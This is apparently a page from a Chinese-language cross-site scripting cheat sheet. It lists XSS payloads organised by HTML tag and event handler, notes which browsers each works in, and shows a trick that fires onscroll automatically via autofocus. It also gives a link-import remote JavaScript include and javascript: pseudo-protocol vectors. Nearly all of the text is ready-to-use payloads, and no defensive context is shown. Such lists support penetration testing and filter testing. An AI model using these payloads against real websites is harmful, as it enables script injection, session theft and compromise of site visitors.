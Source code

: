     <iframe onload=alert("xss");></iframe>

##### `<video>`

    <video><source onerror="alert(1)">

##### `<audio>`

    <audio src=x  onerror=alert("xss");>

##### `<body>`

    <body/onload=alert("xss");>

利用换行符以及 autofocus，自动去触发 onscroll 事件，无需用户去触发

    <body
    onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>

##### `<textarea>`

    <textarea onfocus=alert("xss"); autofocus>

##### `<keygen>`

    <keygen autofocus onfocus=alert(1)> //仅限火狐

##### `<marquee>`

    <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以

##### `<isindex>`

    <isindex type=image src=1 onerror=alert("xss")>//仅限于IE

##### 利用 link 远程包含 js 文件

**PS：在无 CSP 的情况下才可以**

    <link rel=import href="http://127.0.0.1/1.js">

##### javascript 伪协议

`<a>`标签

    <a href="javascript:alert(`xss`);">xss</a>

`<iframe>`标签

    <iframe src=javascript:alert('xss');></iframe>

`<img>`标签

    <img src=javascript:alert('xss')>//IE7以下

`<form>`标签

    <form action="Javascript:alert(1)"><input type=submit>
